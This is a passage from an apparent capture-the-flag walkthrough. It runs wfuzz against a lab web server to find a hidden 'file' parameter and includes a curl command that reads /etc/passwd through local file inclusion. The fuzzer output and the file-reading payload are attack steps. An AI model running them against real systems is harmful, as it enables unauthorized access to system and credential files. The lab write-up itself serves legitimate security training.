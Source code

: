 ```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```
000000013: 200 7 L 12 W 136 Ch "200"

000000014: 200 7 L 12 W 136 Ch "2000"

000000015: 200 7 L 12 W 136 Ch "2001"

000000016: 200 7 L 12 W 136 Ch "2002"

000000017: 200 7 L 12 W 136 Ch "2003"

000000018: 200 7 L 12 W 136 Ch "2004"

000000019: 200 7 L 12 W 136 Ch "2005"

000000020: 200 7 L 12 W 136 Ch "3"

000000022: 200 7 L 12 W 136 Ch "aa"

000000023: 200 7 L 12 W 136 Ch "aaa"

000000024: 200 7 L 12 W 136 Ch "abc"

It looks like 12 W is the common length for the total word count. Once the
filter is put for the length, there’s only one entry left.

root\@kali:\~\# wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc
404 --hw 12 http://192.168.20.149/index.php?FUZZ

\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

\* Wfuzz 2.4 - The Web Fuzzer \*

\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

Target: http://192.168.20.149/index.php?FUZZ

Total requests: 949

===================================================================

ID Response Lines Word Chars Payload

===================================================================

000000340: 200 7 L 19 W 206 Ch "file"

Total time: 1.860162

Processed Requests: 949

Filtered Requests: 948

Requests/sec.: 510.1706

### Browser (Further enumeration)

Now that the fuzzing parameter file is known, browser can be used to enumerate
it.

![](media/dd045d6ba181592108dd9e4b1e574bf3.png)

```